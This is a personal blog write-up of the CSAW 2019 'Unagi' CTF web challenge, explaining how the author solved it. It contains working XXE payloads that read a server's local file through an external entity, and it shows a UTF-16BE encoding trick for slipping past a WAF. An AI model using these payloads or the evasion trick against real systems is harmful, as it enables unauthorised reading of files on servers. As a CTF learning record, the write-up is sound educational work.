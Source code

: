 ```yaml
---
title: "CSAW2019: Unagi"
date: 2020-05-21T01:22:16-06:00
draft: false
comments: false
tags: ["writeups", "web"]
cover: "img/unagi.png"
---
```


Back in 2019 I really got into CTFs as a matter of honing my security skills. They were fun to do and enriched my knowledge of cybersecurity - so I got into it pretty quickly.

This was among the first of the challenges I did while under my team, Maple Bacon. At the time, I had plenty experience with SQL injections and XSS attacks, but not nearly enough experience with another common vulnerability: XXE attacks. CSAW 2019 sought to change that.

Let's Begin!
----

_Note: Unfortunately, I do not have screenshots as I partcipated in this CTF long before I realized I wanted to document my progress with them._

The challenge was called "Unagi". Several options were shown: ```home```, ```users```, ```about``` and ```upload```. ```about``` simply said ```flag is at /flag.txt, come get it``` 

It was a website with users Alice and Bob displayed, with their emails, group, and intro. There was an `upload` endpoint that allowed you to upload XML documents to create a new user. And they also had a sample xml file, how nice! 

```
name: Alice
email: alice@fakesite.com
group: CSAW2019
intro: Alice is cool

name: Bob
email: bob@fakesite.com
group: CSAW2019
intro: Bob is cool too
```

```xml
<?xml version='1.0'?>
<users>
    <user>
        <username>alice</username>
        <password>passwd1</password>
        <name>Alice</name>
        <email>alice@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
</users>
```

This challenge has taught me one thing: where there is XML, there is XXE injection. Researching for hours about XML vulnerabilities all point to XXE injections being **the** attack to do, so I crafted a pretty classic XXE payload and put it in my file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>&xxe;</group>
    </user>
</users>
```

But the WAF will reject the file. I sort of just... aimlessly searched the internet for a fix, dismayed to find a bunch of php workarounds, as this was during a time where I definitely wasn't confident with my skills in php, and so I sort of stagnated at this point...

...Until I got curious about the encoding declaration. Standardly, encodings are UTF-8 around the board, but encoding UTF-16 exists - and what would happen if I changed the XML encoding from UTF-8 to UTF-16? This led me down to researching about using [different encodings to bypass WAF filters](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0/):

>An XML document can be encoded not only in UTF-8, but also in UTF-16 (two variants — BE and LE), in UTF-32 (four variants — BE, LE, 2143, 3412), and in EBCDIC...

>...Exotic encodings may also be used to bypass diligent WAFs as they are not always able to process all the encodings listed above. For instance, the libxml2 parser only supports one type of UTF-32 — UTF-32BE, specifically without BOM.

For this issue in particular, UTF-8 and UTF-16 differ in their ways of encoding a sequence of chars. UTF-8's character encodings are 1-4 bytes, while UTF-16's are 2-4. What this challenge's WAF does is look at the byte encoding of a character and match it with whatever blacklist it has. But naturally, UTF-8's character encodings are going to be vastly different from UTF-16's, since there is at least 1 byte of a difference. So when the WAF looks at UTF-16 encodings, it won't be able to detect the malicious characters that is differently encoded in 2 bytes, and assumes the file is clean.

```
<?xml version="1.0" encoding="UTF-16BE"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>&xxe;</group>
    </user>
</users>
```

UTF-16 encoding does bypass the WAF but when the flag.txt file is loaded...

```
name: Jam
email: jam@jelly.com
group: AAAAAAAAAAAAAAAAAAAA
```

It's cut off, probably cause the "group" field has a character limit. But interestingly enough, the xml sample file doesn't specify a field we saw before - ```intro```. Could we just put our xxe attack in there?

```
<?xml version="1.0" encoding="UTF-16BE"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>Fruit Preservatives</group>
        <intro>&xxe;</intro>
    </user>
</users>
```
It works!

```
name: Jam
email: jam@jelly.com
group: Fruit Preservatives
intro: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAflag{n0w_i'm_s@d_cuz_y0u_g3t_th3_fl4g_but_c0ngr4ts}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

----

Looking back at CSAW 2019 now, it's almost obvious that the attack vector here was an XXE. Of course, being young and somewhat new to the collective CTF scene I wouldn't have figured this out from the get-go. It feels nice to know that I have grown and evolved as a CTF hacker, and I will continue to do so. Each CTF I participate in teaches me something new, so hopefully if anyone reads this and feels uncertain about how much they don't know, spin it around and see it as an oppurtunity of how much you can learn :) Anyway, this was a quick writeup I did based on my year-old notes on this challenge, so I apologize for the lack of screenshots and otherwise simple presentation of it. This coming weekend, I will be participating in a few different CTFs, so expect more writeups to come soon!

Jam

---
References

Cover Image: [Isabella Mendes](https://www.pexels.com/@isabella-mendes-107313) on Pexels